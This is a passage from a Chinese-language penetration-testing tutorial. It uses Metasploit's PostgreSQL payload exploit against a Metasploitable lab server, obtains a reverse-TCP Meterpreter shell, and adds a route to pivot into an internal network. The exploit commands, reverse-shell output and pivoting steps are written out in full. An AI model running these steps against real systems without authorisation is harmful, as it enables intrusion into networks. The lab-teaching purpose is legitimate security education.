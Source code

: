 然后，我们将设置远程主机的 IP 地址（`RHOST`）。在我们的例子中，这是 Metasploitable 服务器的 IP 地址（`192.168.1.101`）。接着，我们通过输入`**run**`来执行漏洞利用。

```
msf6 exploit(linux/postgres/postgres_payload) > set RHOST 192.168.1.101
RHOST => 192.168.1.101
msf6 exploit(linux/postgres/postgres_payload) > run

[*] Started reverse TCP handler on 192.168.1.115:4444

[*] 192.168.1.112:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC .....
[*] Uploaded as /tmp/VfnRAqLD.so, should be cleaned up automatically
[*] Sending stage (976712 bytes) to 192.168.1.101
[*] Meterpreter session 1 opened (192.168.1.115:4444 -> 192.168.1.101:52575) at .....
meterpreter >
```

现在我们已经有了 Meterpreter shell，接下来让我们检查 Metasploitable 服务器上的接口：

```
   meterpreter > ipconfig

   ...
➊ Interface  3

   ============

   Name         : eth1

   Hardware MAC : 08:00:27:d1:f1:26

   MTU          : 1500

   Flags        : UP,BROADCAST,MULTICAST
➋ IPv4 Address : 10.0.0.1

   IPv4 Netmask : 255.255.255.0

   IPv6 Address : fe80::a00:27ff:fed1:f126

   IPv6 Netmask : ffff:ffff:ffff:ffff::
```

为了简化，我在输出中省略了回环接口和主接口，因为它们在网络连接设备中始终存在。我们看到了一个新的接口➊，这表示该机器已连接到另一个网络。现在我们可以添加一个*路由*，允许我们将流量从虚拟环境的内部局域网发送到私有局域网➋。*路由*是网络表中的一项条目，它指示操作系统如何在接口之间转发数据包。添加路由后，我们将把 Meterpreter 会话发送到后台，以便我们可以访问原始的 Metasploit 控制台。使用`**back**`命令取消当前模块的选择：

```
meterpreter > run autoroute -s 10.0.0.1/24
meterpreter > background

[*] Backgrounding session 1...
msf6 exploit(linux/postgres/postgres_payload) > back
```
